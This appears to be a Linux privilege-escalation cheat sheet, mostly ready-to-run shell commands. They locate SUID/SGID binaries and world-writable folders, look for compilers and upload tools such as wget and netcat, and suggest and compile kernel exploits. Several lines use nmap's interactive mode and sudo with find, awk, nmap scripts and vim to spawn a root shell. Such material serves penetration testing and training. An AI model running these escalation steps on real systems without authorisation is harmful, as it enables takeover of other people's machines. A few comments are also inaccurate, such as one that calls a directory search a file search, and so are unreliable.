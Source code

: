 ~~~
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    
# Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

# find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
Where can written to and executed from? A few 'common' places: /tmp, /var/tmp, /dev/shm
find / -writable -type d 2>/dev/null      # world-writeable folders
find / -perm -222 -type d 2>/dev/null     # world-writeable folders
find / -perm -o w -type d 2>/dev/null     # world-writeable folders
find / -perm -o x -type d 2>/dev/null     # world-executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders
~~~
Any "problem" files? Word-writeable, "nobody" files
~~~
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files
~~~
Preparation & Finding Exploit Code
~~~
What development tools/languages are installed/supported?	
find / -name perl*
find / -name python*
find / -name gcc*
find / -name cc
~~~
How can files be uploaded?
~~~
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
~~~
# Kernel vulnerability. (exploit suggester or manual based on version)
~~~
1. Uname -a
2. linux-exploit-suggester-2.pl -k <KERNEL_VERSION>
(on target) gcc <spoilers> -o exploit -Wl,--hash-style=both
gcc -m32 -Wl,--hash-style=both
~~~
# Suid misconfiguration. Example programs: nmap vim nano 
~~~
Binary with suid permission can be run by anyone, but when they are run they are run as root! 
Nmap example 
Nmap: $ nmap --interactive 
nmap> !sh
~~~
# Sudo shell escapes.
~~~~~~
sudo -l 
sudo find /bin -name nano -exec /bin/sh \;  
sudo awk 'BEGIN {system("/bin/sh")}'  
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse 
sudo vim -c '!sh'
~~~~~~